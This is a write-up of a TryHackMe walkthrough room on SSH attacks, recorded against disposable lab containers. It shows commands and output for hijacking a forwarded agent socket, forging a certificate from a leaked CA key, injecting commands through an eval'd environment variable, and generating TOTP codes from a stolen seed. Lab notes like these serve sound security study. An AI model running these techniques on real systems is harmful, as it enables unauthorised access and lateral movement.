






Room: [SSH Attacks](https://tryhackme.com/room/sshattacks)

Most of the write-ups in this repository are the "challenge" type, where I'm handed a target and told to collect a user or root flag, maybe with a few guided questions along the way. This room is different. It's categorised as a "walkthrough", so the tasks hand you the information and the commands you need to finish it.

The room was interesting enough that I wanted to make proper notes from it and have these attack paths in my back pocket for the future. A good chunk of what follows is built on knowledge from the room's creator, who I want to credit (frustratingly, their profile has no GitHub or anything else to link to). I've kept my own narrative, voice and commentary across most of it, and researched the parts the room left out, but I didn't want to pretend all of this came from me. It didn't. Maybe someday.

---

The room summarised it perfectly: successful authentication is not the same thing as legitimate authentication. Every challenge in it sets out to prove exactly that.

The room's objectives:

- Explain SSH's authentication methods and how `AuthenticationMethods` enforces MFA combinations
- Hijack a forwarded SSH-agent socket to authenticate as another user
- Forge an SSH certificate from a compromised CA to impersonate a trusted principal
- Escape a `ForceCommand`-restricted shell via unsafe `AcceptEnv` handling

## Framework mapping

Each challenge abuses a different authentication mechanism, so rather than share one technique they each map to their own in [MITRE ATT&CK](https://attack.mitre.org/):

- Hijacking a forwarded agent socket: [T1563.001 SSH Hijacking](https://attack.mitre.org/techniques/T1563/001/), Lateral Movement
- Forging a certificate from a leaked CA key: [T1649 Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/), Credential Access, reached through a key left in an open listing, [T1552.001 Credentials in Files](https://attack.mitre.org/techniques/T1552/001/)
- Escaping the ForceCommand shell: [T1059.004 Unix Shell](https://attack.mitre.org/techniques/T1059/004/), Execution
- Bypassing TOTP MFA with a stolen seed: [T1111 Multi-Factor Authentication Interception](https://attack.mitre.org/techniques/T1111/), Credential Access, again from a secret sitting in a file
- The thread tying them together: a valid credential used against a remote SSH service, [T1078 Valid Accounts](https://attack.mitre.org/techniques/T1078/) and [T1021.004 Remote Services: SSH](https://attack.mitre.org/techniques/T1021/004/)

## Lab environment



>All five hosts (`relay01`, `vault01`, `signsvc01`, `deploy01` and `edge01`) run as Docker containers on a single VM, attached to one custom bridge network (10.60.10.0/24) with a fixed IP scheme: relay01 is .11, vault01 .12, signsvc01 .13, deploy01 .14, edge01 .15. Only relay01's SSH port is reachable from the AttackBox (host 2201 maps to container 22), so it's the single entry point. Once you're on relay01 you can reach every other container directly by hostname.

These machines are disposable, so I won't bother redacting their IPs or hostnames.

## Hijacking SSH agent forwarding

> Suppose you are a penetration tester who has just landed root on `relay01`, a jump host administrators use every day to reach production systems. Your objective is to pivot from that foothold into `vault01`, authenticating as its `ops-admin` account.

Agent forwarding is a convenience for admins who hop across many machines: rather than copy a private key onto every jump host, or retype a passphrase on every connection, they forward their local ssh-agent along with the session. It's opt-in per connection, switched on with `ssh -A` or `ForwardAgent yes` in the client config.

Like any convenience feature, it widens the attack surface. The risk here is hijacking: when an agent is forwarded into a server you don't fully trust, anyone on that server with the right permissions can reach the forwarded socket and borrow the session.

To understand why that's enough, it helps to know what the agent socket actually is. An ssh-agent holds decrypted private keys in memory and exposes a Unix domain socket as its interface. Anything that can talk to that socket can ask the agent to sign authentication challenges with those keys. It never hands the key material back, it just signs on request. So controlling the socket gives you the key's signing power for as long as the agent is alive, without ever reading the key itself. That's the whole trick: you don't need the private key, you need the socket.

**1. Connect to the entry point.**

```
ssh -p 2201 root@10.112.189.88
```

The non-standard port is specified explicitly. The connection is by password, which isn't the recommended method, least of all with the one provided (`P@ssw0rd!123`). As an example of how the initial foothold might realistically happen (this part is inferred, not something the room walks through): an attacker scans the network, spots the open SSH port with a service-detection scan, and brute-forces in, since that password sits comfortably inside common wordlists.

**2. Locate the forwarded agent socket.**

The prerequisite is an admin's session already being live on the box. The account here is root, which is catastrophic in terms of blast radius: a forwarded socket is protected by ordinary Unix file permissions, and those don't stop root.

The room points to two common locations, depending on the OpenSSH version: `/tmp/ssh-XXXXXXXXXX/agent.<pid>` or `~/.ssh/agent/`.

```
root@relay01:~# ls -la /tmp/ssh-*/agent.*
srw------- 1 root root 0 Nov 17 13:50 /tmp/ssh-e67gq997JFOL/agent.51
```

**3. Hijack the socket.**

```
root@relay01:~# export SSH_AUTH_SOCK=/tmp/ssh-e67gq997JFOL/agent.51
root@relay01:~# ssh-add -l
256 SHA256:rUJEoXPYoapRuQHKhXkFFd5mkaKWiZS7mLrmktn8NM4 ops-admin-key (ED25519)
```

Point `SSH_AUTH_SOCK` at the socket and the agent is now yours to query. The key comment, `ops-admin-key`, tells you this socket carries the signing capability for an account called `ops-admin`, which is exactly what you'll ride onward to `vault01`.

**4. Authenticate through the hijacked agent.**

```
root@relay01:~# ssh -o StrictHostKeyChecking=no ops-admin@vault01
```

The agent signs the challenge, `vault01` sees a valid `ops-admin` login, and the first flag drops. `ops-admin` also turns out to hold `NOPASSWD: ALL` sudo on vault01, which `sudo -l` spells out, so a single `sudo -i` drops you into a root shell as well.



## Exploiting SSH certificate trust

> Suppose you are a penetration tester with no foothold on `vault01` at all, but you have stumbled onto a misconfigured signing-service backup elsewhere in the environment. Your objective is to turn that leaked CA key into an authenticated shell as `svc-fleet` on `vault01`.
> Attackers who find an exposed CA private key are looking at the single most valuable credential in a fleet-scale SSH deployment, because whoever holds it can mint a valid identity for any principal the fleet trusts, without ever touching a single host's `authorized_keys` file.

Here the usual key management is replaced by certificate-based authentication. Instead of copying every user's public key into every host's `authorized_keys`, you nominate a trusted certificate authority (CA). The CA signs short-lived certificates that bind a public key to one or more principals (the identities, or roles, an account is willing to accept). Hosts are told to trust the CA key, so they accept any certificate it signed whose principal matches what's allowed for the target account. Trust flows from the CA's signature, not from a per-host list of keys. It's the same model that underpins the rest of the digital world: HTTPS works because your browser trusts a handful of authorities to vouch for a site's identity. The core element is trust, and this task is about abusing it.

Which is also why keeping the CA key off the floor matters so much. Because that one key can mint a valid identity for any principal on any host that trusts it, leaking it isn't a single-host problem, it's a broad compromise. In a real deployment it belongs in an HSM or kept offline, never in a world-readable backup.

**1. Find the CA key.**

The room spared us the tedious enumeration:

> Suppose that reconnaissance has already led you to `signsvc01` (`10.60.10.13`) in this environment, which turns out to be running an anonymous HTTP file listing.

```
root@relay01:~# curl -s http://signsvc01:8000/signing-backups/
<!DOCTYPE HTML>
<html lang="en">
<head>
<title>Directory listing for /signing-backups/</title>
</head>
<body>
<h1>Directory listing for /signing-backups/</h1>
<ul>
<li><a href="northpeak_user_ca">northpeak_user_ca</a></li>
<li><a href="northpeak_user_ca.pub">northpeak_user_ca.pub</a></li>
<li><a href="README.txt">README.txt</a></li>
</ul>
</body>
</html>
```

An anonymous directory listing is handing out the CA private key (`northpeak_user_ca`), its public half, and a README. 

**2. Download the files and read the README.**

The README was kind enough to tell us the identity and principal we need.

```
root@relay01:~# cat README.txt
Provisioning notes - signing service backup
---------------------------------------------
svc-fleet account requires exact principal: fleet-engineer
Contact platform team before rotating northpeak_user_ca.
```

Two terms matter when you sign the certificate, and they are not the same thing. The identity (`-I`, a key ID) is just a label stamped into the certificate for logging and auditing. It's free text and has no bearing on access. The principal (`-n`) is the part that decides authorisation: the host checks whether the certificate's principal list contains a value the target account permits. The README tells us `svc-fleet` demands the exact principal `fleet-engineer`, and the matching is done with `strcmp()`, an exact string comparison, not a wildcard or prefix match. So the certificate has to carry `fleet-engineer` precisely, or vault01 rejects it.

Before signing, fix the key's permissions, or ssh refuses to use it later (I may have learned this the slow way):

```
chmod 600 northpeak_user_ca
```

```
Permissions 0644 for 'northpeak_user_ca' are too open.
It is required that your private key files are NOT accessible by others.
```

**3. Generate your own keypair.**

```
ssh-keygen -t ed25519 -f attacker_key -N ""
```


**4. Sign a forged certificate.**

```
root@relay01:~# ssh-keygen -s northpeak_user_ca -I pivot-access -n fleet-engineer -V +52w -z 31337 attacker_key.pub
Signed user key attacker_key-cert.pub: id "pivot-access" serial 31337 for fleet-engineer valid from 2026-11-17T15:26:00 to 2027-11-16T15:27:23
```

`-s` is the CA key doing the signing, `-I pivot-access` is the cosmetic key ID, `-n fleet-engineer` is the principal that actually unlocks the account, `-V +52w` sets a year of validity and `-z 31337` a serial number. Confirm:

```
root@relay01:~# ssh-keygen -L -f attacker_key-cert.pub
attacker_key-cert.pub:
        Type: ssh-ed25519-cert-v01@openssh.com user certificate
        Signing CA: ED25519 SHA256:8PTnrjkcX6n8eT6ShUcqa9p1nW4ftjyOL0fh+GhSmD4 (using ssh-ed25519)
        Key ID: "pivot-access"
        Serial: 31337
        Valid: from 2026-11-17T15:26:00 to 2027-11-16T15:27:23
        Principals:
                fleet-engineer
```

**5. Connect with the forged certificate.**

```
root@relay01:~# ssh -o StrictHostKeyChecking=no -i attacker_key -o CertificateFile=attacker_key-cert.pub svc-fleet@vault01
```

vault01 validates the certificate against the CA it trusts, sees the principal `fleet-engineer`, and lets you in as `svc-fleet`. No `authorized_keys` entry was ever touched.



## Escaping ForceCommand shells

> `ForceCommand` overrides whatever command the client asked for and always runs a fixed script through the login shell's `-c` option instead. The client's original request is not thrown away. It survives in an environment variable, `$SSH_ORIGINAL_COMMAND`, so the forced script can branch on it. `AcceptEnv` is the separate directive that controls which client-supplied environment variables are allowed to cross the SSH session boundary at all and land inside that forced command's environment.

> What normal usage looks like here is simple. A deploy bot connects, runs exactly one of a small set of expected operations, and disconnects. There is no interactive shell involved, and `$SSH_ORIGINAL_COMMAND` never contains anything outside that small expected set.

> `deploy01` is `10.60.10.14`. The credentials are given to you directly, since the exercise is about escaping the restriction, not about obtaining the account in the first place.

The `ForceCommand` script for this account:

```
#!/bin/bash
# /opt/ci/pipeline-wrapper.sh
STAGE="${PIPELINE_STAGE:-default}"
case "$SSH_ORIGINAL_COMMAND" in
  "status")
    eval "echo Running pipeline status check for stage: $STAGE"
    ;;
  "sync")
    eval "echo Syncing artifacts for stage: $STAGE"
    /opt/ci/bin/sync-artifacts.sh
    ;;
  *)
    echo "Unsupported command"
    exit 1
    ;;
esac
```

And the matching config:

```
# deploy01:/etc/ssh/sshd_config
Match User svc-pipeline
    ForceCommand /opt/ci/pipeline-wrapper.sh
    AcceptEnv PIPELINE_STAGE
```

The flaw is the `eval`. The script takes `PIPELINE_STAGE`, an environment variable the client is allowed to set because `AcceptEnv PIPELINE_STAGE` waves it through, drops it into `$STAGE`, and then feeds it to `eval`. `eval` re-parses its whole argument as a fresh shell command, so any shell metacharacters inside `$STAGE` stop being text and start being code. The `status` string the server expects is harmless.

Set `PIPELINE_STAGE` to a value that closes off the intended `echo` and chains your own commands, send it across with `-o SendEnv=PIPELINE_STAGE`, and still ask for the allowed `status` operation so the case statement reaches the vulnerable branch:

```
root@relay01:~# PIPELINE_STAGE='default; id > /tmp/escape_confirmed.txt; cat /opt/ci/confirmed.flag #' \
  ssh -o SendEnv=PIPELINE_STAGE -i /root/svc_pipeline_id_ed25519 svc-pipeline@deploy01 status
```

Inside the wrapper, `eval` now expands to:

```
echo Running pipeline status check for stage: default; id > /tmp/escape_confirmed.txt; cat /opt/ci/confirmed.flag #
```

The `;` separators chain three commands where the script intended one, the trailing `#` comments out whatever `eval` appended after your injection, and `cat` prints the flag. The restricted shell did exactly what it was told. It just wasn't told to only trust the parts it controlled.

The room points out a nice piece of history here: this same `ForceCommand` plus `AcceptEnv` pattern, an attacker-controlled environment variable reaching a bash invocation across the SSH boundary, was a well-known exploitation path for Shellshock ([CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)).



## Bypassing TOTP-based MFA

> `edge01` has an account called `netops`. No password prompt at all, straight to a `Verification code:` prompt. That is keyboard-interactive MFA, almost always backed by something like `pam_google_authenticator`. RFC 6238's TOTP algorithm needs nothing but a shared secret and the current time to reproduce a valid six-digit code, so whenever you hit a prompt like this during an engagement, the entire attack boils down to one question: where is that secret sitting?

> The secret has to live somewhere the server can check it, most commonly a `.google_authenticator` file in the account's home directory. In real engagements, that same file turns up in backups, config-management repos, container images baked before a secret rotation, or, like here, a copy left behind on a completely different box than the one it protects. Look for it:

```
root@relay01:~# find / -iname .google_authenticator 2>/dev/null
/opt/backups/netops-mfa/.google_authenticator
```

The seed was sitting in a backup directory on relay01, nowhere near the edge01 account it actually guards. The first line of the file is the base32 shared secret, and the rest are just policy settings:

```
root@relay01:~# cat /opt/backups/netops-mfa/.google_authenticator
J2BXHEGUNUNAUUES
" RATE_LIMIT 3 30 1721905000
" WINDOW_SIZE 3
" DISALLOW_REUSE
" TOTP_AUTH
```

TOTP derives its six-digit code and the current 30-second time window, so the secret plus a clock is all you need to generate valid codes. No phone, no enrolled device. `oathtool` does it in one line:

```
root@relay01:~# oathtool --totp -b J2BXHEGUNUNAUUES
576844
```

Feed that at the prompt and `netops@edge01` lets you in:

```
root@relay01:~# ssh netops@edge01
(netops@edge01) Verification code: 576844
```

This is why a leaked TOTP seed is as good as a leaked password. The "second factor" stops adding anything the moment its seed is copied somewhere it shouldn't be.



## Lessons learned

The theme running through every box: successful authentication is not the same thing as legitimate authentication. Each host accepted a cryptographically valid credential presented by the wrong party, and in every case the weakness was in how the credential was handled, not in the crypto itself.

- Agent forwarding hands your keys' signing power to whoever controls the host you forward into. Don't forward an agent onto a box you don't fully trust.
- A CA private key is the entire fleet's trust compressed into one file. It belongs in an HSM or kept offline, its backups should never sit on an anonymous listing, and principals should be scoped tightly.
- Never pass an attacker-influenceable value to `eval`. `AcceptEnv` widens exactly what a client can control, so a restricted command must treat every environment variable as hostile input and avoid `eval` on it entirely.
- A TOTP seed is equal to the account it protects. It must not survive in backups, images or config repos.
